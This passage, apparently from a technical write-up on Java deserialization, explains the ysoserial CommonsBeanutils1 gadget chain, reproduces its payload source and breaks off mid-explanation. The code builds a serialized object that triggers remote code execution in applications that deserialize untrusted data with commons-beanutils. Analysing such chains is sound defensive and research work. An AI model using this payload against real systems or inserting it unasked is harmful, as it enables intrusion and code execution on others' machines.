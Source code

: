 But these versions actually reflect only the library version used by the author of ysoserial when writing and using them, and the actual scope of influence may not be limited to this. Therefore, before rushing to draw specific conclusions on the dependency version, let's take a look at how this chain is constructed in the source code in ysoserial:

```Java
package ysoserial.payloads;

import java.math.BigInteger;
import java.util.PriorityQueue;

import org.apache.commons.beanutils.BeanComparator;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

@SuppressWarnings({ "rawtypes", "unchecked" })
@Dependencies({"commons-beanutils:commons-beanutils:1.9.2", "commons-collections:commons-collections:3.1", "commons-logging:commons-logging:1.2"})
@Authors({ Authors.FROHOFF })
public class CommonsBeanutils1 implements ObjectPayload<Object> {

	public Object getObject(final String command) throws Exception {
		final Object templates = Gadgets.createTemplatesImpl(command);
		// mock method name until armed
		final BeanComparator comparator = new BeanComparator("lowestSetBit");

		// create queue with numbers and basic comparator
		final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
		// stub data for replacement later
		queue.add(new BigInteger("1"));
		queue.add(new BigInteger("1"));

		// switch method called by comparator
		Reflections.setFieldValue(comparator, "property", "outputProperties");

		// switch contents of queue
		final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
		queueArray[0] = templates;
		queueArray[1] = templates;

		return queue;
	}

}
```

After careful analysis of the construction principle of the `CommonsBeanutils1` chain, you will find that the core of this chain is the class `org.apache.commons.beanutils.BeanComparator`, which implements both the `Comparator` and `Serializable` interfaces, and when comparing, a specific getter method will be called on the passed comparison object:
